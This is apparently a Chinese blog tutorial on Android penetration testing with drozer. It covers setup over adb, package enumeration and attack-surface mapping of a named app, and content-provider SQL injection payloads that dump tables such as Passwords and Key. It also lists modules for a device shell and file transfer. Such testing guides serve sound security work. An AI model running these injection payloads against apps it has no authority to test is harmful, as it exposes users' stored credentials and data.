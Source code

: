 ```yaml
---
title: 利用drozer进行Android渗透测试
date: 2015-05-10 15:18:59
tags: [android,测试]
categories: android
---
```


# 一、 drozer的安装与启动
## 1、 安装
第一步：从http://mwr.to/drozer下载Drozer (Windows Installer)

第二步：在Android设备中安装agent.apk
```js
adb install agent.apk
```

<!-- more -->

## 2、 启动
第一步：使用adb连接android设备
```js
C:\Users\vv>adb connect 20.20.20.55
connected to 20.20.20.55:5555
```
第二步：使用adb进行端口转发，转发到Drozer使用的端口31415
```js
C:\Users\vv>adb forward tcp:31415 tcp:31415
```
第三步：在Android设备上开启Drozer Agent  
选择embedded server-enable

第四步：切换到drozer安装的bin目录下，开启Drozer console
```js
F:\drozer>drozer console connect
```
输出信息：
```java
    java = C:\path\to\java
    Selecting 8a04af64a8b990d8 (LENOVO Lenovo A850 4.2.2)

                ..                    ..:.
               ..o..                  .r..
                ..a..  . ....... .  ..nd
                  ro..idsnemesisand..pr
                  .otectorandroidsneme.
               .,sisandprotectorandroids+.
             ..nemesisandprotectorandroidsn:.
            .emesisandprotectorandroidsnemes..
          ..isandp,..,rotectorandro,..,idsnem.
          .isisandp..rotectorandroid..snemisis.
          ,andprotectorandroidsnemisisandprotec.
         .torandroidsnemesisandprotectorandroid.
         .snemisisandprotectorandroidsnemesisan:
         .dprotectorandroidsnemesisandprotector.

    drozer Console (v2.3.3)
    It seems that you are running an old version of drozer. drozer v2.3.4 was
    released on 2015-02-20. We suggest that you update your copy to make sure that
    you have the latest features and fixes.

    To download the latest drozer visit: http://mwr.to/drozer/

    dz>
```
最后如果出现如上信息就表示启动并连接成功了

# 二、 测试步骤
## 1、 获取android手机上所有的包名
```js
    dz> run app.package.list
    MFT.test (MFT_Test)
    android (Android 绯荤粺)
    cn.wps.moffice (WPS Office)
    com.amap.android.location (缃戠粶浣嶇疆)
    com.android.backupconfirm (com.android.backupconfirm)
    com.android.browser (娴忚鍣?
    com.android.calculator2 (璁＄畻鍣?
    com.android.certinstaller (Certificate Installer)
    com.android.defcontainer (搴旂敤鍖呰闂潈闄愬府鍔╃▼搴?）
```

## 2、 获取android手机上口袋助理的包名
```js
dz> run app.package.list -f sangfor
com.sangfor.pocket (鍙ｈ鍔╃悊)
```
## 3、 获取应用的基本信息
```js
    dz> run app.package.info -a com.sangfor.pocket
    Package: com.sangfor.pocket
      Application Label: 鍙ｈ鍔╃悊
      Process Name: com.sangfor.pocket
      Version: 1.3.1

    .........
```

## 4、 确定攻击面
```js
    dz> run app.package.attacksurface  com.sangfor.pocket
    Attack Surface:
      10 activities exported
      8 broadcast receivers exported
      0 content providers exported
      6 services exported
        is debuggable
```

## 5、 Activity  
（1）获取activity信息
```js
    run app.activity.info -a com.sangfor.pocket
```
（2）启动activity
```js
    run app.activity.start --component com.sangfor.pocket

    dz> help app.activity.start

    usage: run app.activity.start [-h] [--action ACTION] [--category CATEGORY]

    [--component PACKAGE COMPONENT] [--data-uri DATA_URI]

    [--extra TYPE KEY VALUE] [--flags FLAGS [FLAGS ...]]

    [--mimetype MIMETYPE]
```

## 6、 Content Provider  
（1）获取Content Provider信息
```js
    dz> run app.provider.info -a com.sangfor.pocket
    Package: com.sangfor.pocket
      No matching providers.
```
（2）Content Providers（数据泄露）
* 先获取所有可以访问的Uri：
```js
        run scanner.provider.finduris -a com.sangfor.pocket
```
* 获取各个Uri的数据：
```js
        run app.provider.query content://com.sangfor.pocket.DBContentProvider/Passwords/ --vertical
```
查询到数据说明存在漏洞

（3）Content Providers（SQL注入）
```js
    run app.provider.query content://com.sangfor.pocket.DBContentProvider/Passwords/ --projection "'"
    run app.provider.query content://com.sangfor.pocket.DBContentProvider/Passwords/ --selection "'"
```
报错则说明存在SQL注入。

列出所有表：
```js
    run app.provider.query content://com.sangfor.pocket.DBContentProvider/Passwords/ --projection "* FROM SQLITE_MASTER WHERE type='table';--"
```
获取某个表（如Key）中的数据：  
```js
    run app.provider.query content://com.sangfor.pocket.DBContentProvider/Passwords/ --projection "* FROM Key;--"
```
（4）同时检测SQL注入和目录遍历
```js
    run scanner.provider.injection -a com.sangfor.pocket

      run scanner.provider.traversal -a com.sangfor.pocket
```

## 7、 Service  
（1）获取service详情
```js
    run app.service.info -a com.mwr.example.sieve
```

## 8、 其它模块  
```js
#在设备上开启一个交互shell  
shell.start

#上传/下载文件到设备
tools.file.upload / tools.file.download

#安装可用的二进制文件
tools.setup.busybox / tools.setup.minimalsu
```
